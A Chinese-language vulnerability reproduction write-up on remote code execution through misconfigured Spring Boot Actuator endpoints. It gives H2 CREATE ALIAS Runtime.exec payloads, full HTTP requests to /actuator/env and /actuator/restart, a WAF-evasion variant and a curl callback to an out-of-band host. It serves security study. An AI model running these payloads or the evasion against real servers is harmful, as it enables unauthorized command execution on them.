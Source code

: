 # Spring Boot Actuator配置不当rce

### 一、漏洞简介

Spring Boot 2.x默认使用的HikariCP数据库连接池提供了一个可以RCE的变量。这个变量就是spring.datasource.hikari.connection-test-query。这个变量与HikariCP中的connectionTestQuery配置相匹配。根据文档，此配置定义的是在从池中给出一个连接之前被执行的query，它的作用是验证数据库连接是否处于活动状态。简言之，无论何时一个恶心的数据库连接被建立时，spring.datasource.hikari.connection-test-query的值将会被作为一个SQL语句执行。然后利用SQL语句中的用户自定义函数，进行RCE。

### 二、漏洞影响

Spring Boot 2.x

### 三、复现过程

**漏洞环境**

https://github.com/ianxtianxt/springboot_actuator

H2 CREATE ALIAS 命令

H2数据库引擎是一个流行的java开发数据库，非常容易与Spring Boot集成，仅仅需要如下的一个dependency。


```
<dependency>
    <groupId>com.h2database</groupId>
    <artifactId>h2</artifactId>
    <scope>runtime</scope>
</dependency>
```

在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE ALIAS创建一个java函数然后调用它，示例如下:


```
CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
CALL GET_SYSTEM_PROPERTY('java.class.path');
```

仿照这个，创建命令执行的java函数可以如下:


```java
String shellexec(String cmd) throws java.io.IOException { 
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
    if (s.hasNext()) {
        return s.next();
    } throw new IllegalArgumentException(); 
}
```

那么RCE所需的SQL语句即:


```sql
CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');
```

与1.x类似，在端点/actuator/env通过POST方法进行环境变量的赋值。payload为


```bash
POST /actuator/env HTTP/1.1

content-type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');"}
```

执行RCE的SQL语句已经构建好，接下来就是触发一个新的数据库连接，通过向端点/actuator/restart发送POST请求，即可重启应用出发新的数据库连接。请求如下


```bash
POST /actuator/restart HTTP/1.1

content-type: application/json

{}
```

命令执行的结果:

![](images/15893412630099.png)


**针对WAFs**

在这点上，可能会遇到常见的WAF过滤器，特别是对exec的过滤。然而，像这样的一个payload可以很容易地使用多种字符串拼接技术来绕过。比如使用CONCAT或HEXTORAW命令。上面的payload可写成


```sql
CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');
CALL EXEC('curl  http://x.burpcollaborator.net');
```

有限的执行上下文的命令注入

spring.datasource.hikari.connection-test-query是用来验证连接到数据库的连接是否存活。如果语句失败，应用会相信数据库无法连接并不再返回其他的数据库查询。攻击者可利用此来获得一个blind RCE。

参考链接

https://xz.aliyun.com/t/7480#toc-3